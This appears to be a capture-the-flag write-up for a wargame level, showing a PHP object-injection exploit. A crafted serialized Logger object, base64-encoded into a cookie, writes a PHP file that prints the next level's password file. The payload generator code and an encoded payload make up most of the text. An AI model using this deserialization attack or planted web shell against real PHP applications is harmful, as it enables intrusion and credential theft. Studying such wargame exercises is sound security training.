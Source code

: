 Action of doing are try remove unwanted parameter and log in above constructor , then write payload inside `$initMsg`and in above construct change log area path , as our wish consider those object into unserialize in php ,we serialize those manipulate the object , serialized form then inject this in cookies drawing in base64 encoded way , later we can access flag because inject the code that get flag and stored in as wished path

```php
<?php

class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct()
    {
        $this->initMsg = "Anything goes here";
        $this->exitMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
        $this->logFile = "img/pwdgrabber.php";
    }
}

$object = new Logger();

print(base64_encode(serialize($object)));
```

this our payload , and base64 encoded form is

```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxODoiaW1nL3B3ZGdyYWJiZXIucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MTg6IkFueXRoaW5nIGdvZXMgaGVyZSI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYyOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ=
```

I added random_name and save this below php as a `natas26_cookies.php` in a same directory

```php
<?php

$random_name = $argv[1];

class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct($random_name)
    {
        $this->initMsg = "Anything goes here";
        $this->exitMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
        $this->logFile = "img/" . $random_name . ".php";
    }
}

$object = new Logger($random_name);
print(base64_encode(serialize($object)));
?>

```
